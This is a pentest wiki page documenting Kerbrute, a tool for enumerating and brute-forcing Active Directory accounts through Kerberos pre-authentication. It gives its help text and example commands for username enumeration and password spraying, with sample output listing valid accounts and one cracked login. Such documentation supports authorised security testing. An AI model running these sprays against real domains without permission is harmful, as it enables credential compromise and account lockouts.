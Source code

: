```yaml
---
title : "Kerbrute"
# pre : ' '
description : "This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication."
date : 2021-02-15T13:24:03+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerbrute

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.

A list of common used AD usernames can be downloaded [here](https://github.com/crypt0rr/common-ad-usernames).

### Installation

Download latest library from [Github.com](https://github.com/ropnop/kerbrute/releases/latest)

### Usage

```plain
kerbrute [command]
```

### Flags

```plain
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

### Examples

#### Validate usernames against domain

After you succesfully enumerated [usernames](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) you can try ASREPRoasting with [Impacket GetNPUsers.py]({{< ref "impacket" >}}) or use [CrackMapExec]({{< ref "crackmapexec#domain-password-spray" >}}) to do a password spray.

```plain
$ ./kerbrute userenum --dc 10.10.10.10 -d offsec.nl usersnames.txt -o userenum-output.txt

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

2021/02/15 13:22:24 >  Using KDC(s):
2021/02/15 13:22:24 >      10.10.10.10:88

2021/02/15 13:22:24 >  [+] VALID USERNAME:     john@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     jane@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     johndo-adm@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     janedo-adm@offsec.nl
2021/02/15 13:22:24 >  Done! Tested 21 usernames (4 valid) in 0.017 seconds
```

To extract the valid usernames to a separate file you can use the following command.

```plain
cat userenum-output.txt | awk '{print $7}' | cut -d '@' -f1 > available-users.txt
```

#### Password spray

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames, filter them and use as input for the spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt Welkom01!

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop
```

#### Username as password

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames and use them as input for the 'user-as-pass' spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt --user-as-pass

   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/   \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 01/17/22 - Ronnie Flathers @ropnop

2022/01/17 15:35:28 >  Using KDC(s):
2022/01/17 15:35:28 >   10.10.10.10:88

2022/01/17 15:35:31 >  [+] VALID LOGIN:  svc_dcsync@offsec.nl:svc_dcsync
2022/01/17 15:35:38 >  Done! Tested 4393 logins (1 successes) in 9.460 seconds
```

### URL list

* [Github.com - kerbrute](https://github.com/ropnop/kerbrute)
